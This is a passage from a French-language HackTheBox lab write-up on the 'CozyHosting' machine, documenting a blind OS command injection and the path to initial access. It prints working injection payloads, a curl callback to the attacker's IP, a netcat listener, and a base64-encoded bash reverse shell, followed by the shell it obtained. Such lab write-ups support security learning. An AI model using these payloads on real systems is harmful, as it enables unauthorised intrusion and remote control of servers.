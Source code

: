 Ce qui remplace notre payload par `2>/dev/null;ls${IFS}-al#`.

Le message devient **http://cozyhosting.htb/admin?error=ls: invalid option -- '#'Try 'ls --help' for more information.** mais nous ne voyons pas d'ouput, ce qui présage une blind OS injection.

## Blind OS injection - Accès initial
On tente une autre approche, on va essayer de faire un curl sur un serveur http en écoute, du côté attaquant, on a notre serveur :

```console
$ python3 -m http.server 1234
```

et on transforme notre paylaod en `2>/dev/null;curl${IFS}10.10.16.23:1234/#`, pour faire un `curl 10.10.16.23:1234/` vers notre serveur http.
<img src="/assets/images/WriteUps/HackTheBox/cozyHosting/curlFromServer.png" width="400px" height="50px" style="display: block; margin: 0 auto"/>

On voit qu'on reçoit bien une requête de la part du serveur web. L'injection de commande existe belle et bien. Place à l'exploitation.

### Elaboration du payload

<u>Côté attaquant</u>
`nc -nlvp 2345`

<u>Côté victime</u>
`bash -i >& /dev/tcp/10.10.16.23/2345 0>&1`
Vu qu'il y a des caractères spéciaux, on va utiliser le base64. On l'encode :

```console
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIzLzIzNDUgMD4mMScK
```

Côté web, on va donc utiliser echo :
```console
echo${IFS}L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIzLzIzNDUgMD4mMScK|base64${IFS}-d|/bin/bash
```

Paylaod finale :
`2>/dev/null;echo${IFS}L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIzLzIzNDUgMD4mMScK|base64${IFS}-d|/bin/bash;#`

On obtient notre shell :
```
└─$ nc -lvnp 2345
listening on [any] 2345 ...
connect to [10.10.16.23] from (UNKNOWN) [10.10.11.230] 37472
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ 
```
